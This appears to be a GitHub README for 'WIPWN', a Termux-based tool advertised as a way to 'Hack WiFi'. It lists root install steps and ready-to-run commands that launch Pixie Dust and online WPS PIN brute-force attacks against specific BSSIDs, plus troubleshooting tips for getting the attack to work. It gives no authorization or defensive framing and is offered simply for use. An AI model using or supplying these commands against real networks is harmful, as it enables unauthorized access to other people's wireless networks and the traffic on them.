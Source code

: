 <h1 align="center">WIPWN</h1>
<h4 align="center">Hack WIfi Using Termux! (Requires Root)</h4>

#### Start

<p align="center"><img src="https://raw.githubusercontent.com/ITSN0B1T4/itsn0b1t4.github.io/main/wepwn/.assets/demo2.png"></p>

#### Cracked

<p align="center"><img src="https://raw.githubusercontent.com/ITSN0B1T4/itsn0b1t4.github.io/main/wepwn/.assets/demo3.png"></p>

#### Autostart if failed 

<p align="center"><img src="https://raw.githubusercontent.com/ITSN0B1T4/itsn0b1t4.github.io/main/wepwn/.assets/demo4.png"></p>

### Installation :

```bash
pkg update && pkg upgrade -y
pkg install root-repo -y
pkg install git tsu python termux-api wpa-supplicant pixiewps iw -y
git clone https://github.com/ITSN0B1T4/wipwn
cd wipwn
chmod +x wipwn.py
```
#### Help : `sudo python wipwn.py --help`
#### Example : `sudo python wipwn.py -i wlan0 -K`

#### Note: 
+ **First turn off your Wifi.**
+ **Turn on Hotspot.**
- Show avaliable networks and start Pixie Dust attack on a specified network.
- `sudo python wipwn.py -i wlan0 -K`
- - Start Pixie Dust attack on a specified BSSID:
`sudo python wipwn.py -i wlan0 -b 00:91:4C:C3:AC:28 -K`
- Launch online WPS bruteforce with the specified first half of the PIN:
- `sudo python wipwn.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234`
### Troubleshooting
**"Device or resource busy (-16)" - Turn on Wifi and Then Turn off Wifi.**

### License

````
MIT License

Copyright (c) 2022 Toxinum.

Permission is hereby granted, free of charge, to any person obtaining a copy
of this software and associated documentation files (the "Software"), to deal
in the Software without restriction, including without limitation the rights
to use, copy, modify, merge, publish, distribute, sublicense, and/or sell
copies of the Software, and to permit persons to whom the Software is
furnished to do so, subject to the following conditions:

The above copyright notice and this permission notice shall be included in all
copies or substantial portions of the Software.

THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR
IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY,
FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE
AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER
LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM,
OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE
SOFTWARE.
````

+ **IF FAILED TURN OFF LOCATION IF TURNED ON.**

Repo : <a href="https://github.com/ITSN0B1T4/wepwn"> Here </a>

##### Modify History : rofl0r => Biri_B@B@ => Mohammad_Alamin (Toxinum)
<div align="center">
<h3>━━━━ Connect with me ━━━━</h3>
<a href="https://fb.com/TOXINUM" target="blank"><img align="center" src="https://raw.githubusercontent.com/rahuldkjain/github-profile-readme-generator/master/src/images/icons/Social/facebook.svg" alt="TOXIC-VIRUS" height="30" width="40" /></a>
<a href="https://twitter.com/itzakx21" target="blank"><img align="center" src="https://raw.githubusercontent.com/rahuldkjain/github-profile-readme-generator/master/src/images/icons/Social/twitter.svg" alt="itzakx21" height="30" width="40" /></a>
<a href="https://fb.com/ITSN0B1T4" target="blank"><img align="center" src="https://raw.githubusercontent.com/rahuldkjain/github-profile-readme-generator/master/src/images/icons/Social/facebook.svg" alt="Mohammad Alamin" height="30" width="40" /></a>
<a href="https://instagram.com/ITSN0B1T4" target="blank"><img align="center" src="https://raw.githubusercontent.com/rahuldkjain/github-profile-readme-generator/master/src/images/icons/Social/instagram.svg" alt="akxvau" height="30" width="40" /></a>
</div>
